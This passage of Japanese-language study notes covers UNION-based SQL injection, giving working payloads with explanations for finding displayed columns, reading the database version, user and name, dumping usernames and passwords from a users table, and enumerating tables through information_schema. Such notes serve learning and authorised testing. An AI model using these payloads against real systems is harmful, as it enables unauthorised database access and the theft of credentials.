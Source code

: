- 情報出力用テストペイロード
	- `' UNION SELECT 1,@@version,3,4-- -` → DBバージョンが表示されれば成功

### 実用ペイロード例（目的別）
-  テーブルの出力確認（どの列が表示されるか調べる）
	- `' UNION SELECT 1,2,3,4-- -`
		- 数字の位置が画面上に出れば、その列は表示されている
		- 表示されない列に攻撃しても結果は見えないため、重要な前準備

-  DBバージョン情報の取得
	- `' UNION SELECT 1,@@version,3,4-- -`
		- `@@version` はDBMSのバージョンを取得できる関数（MySQL/MariaDB対応）
		- 成功すれば、SQLiが有効であることと出力確認が一度にできる

-  現在のDBユーザーの取得
	- `' UNION SELECT 1,user(),3,4-- -`
		- 現在接続中のDBユーザー名を表示
		- 特権ユーザー（例：`root@localhost`）かどうかを確認可能

-  データベース名の取得
	- `' UNION SELECT 1,database(),3,4-- -`
		- 現在使用中のDB名がわかる
		- 他のDBにアクセスするための足がかりになる

-  ユーザー情報の取得（パスワードなど）
	- `' UNION SELECT username, password, 3, 4 FROM users-- -`
		- `users` テーブルにある情報を盗み出す基本型
		- 第2・3列が表示されている前提で構成（前段の表示列確認が重要）

-  複数レコードの確認（データベース探索中）
	- `' UNION SELECT table_name, NULL, NULL, NULL FROM information_schema.tables-- -`
		- `information_schema` を使ってDB内のテーブル一覧を列挙
		- 同様に `columns` テーブルで列情報も取得可能

-  型合わせが難しいときの安全な列埋め
	- `' UNION SELECT username, NULL, NULL, NULL FROM users-- -`
		- `NULL` を使うと大抵の列に適合できる（型エラー防止）
		- 型不明な列にはこれを入れるのが無難

- よくある用途
	- DBのバージョンや現在のユーザー確認（例：`@@version`, `user()`）
	- 他テーブルの列・構造特定 → 機密情報（パスワード、メール等）の取得

- 注意点・対策されやすいポイント
	- UNIONが制限されている場合やWAFにブロックされる可能性あり
	- 表示されない列に注入しても結果は見えない
	- 列数・表示列・データ型を正確に見極める必要あり

# DB列挙

- 目的
	- SQLiを通じて、DB構造とデータを把握・抽出するための手順
	- 特に`INFORMATION_SCHEMA`を利用した構造調査が中心
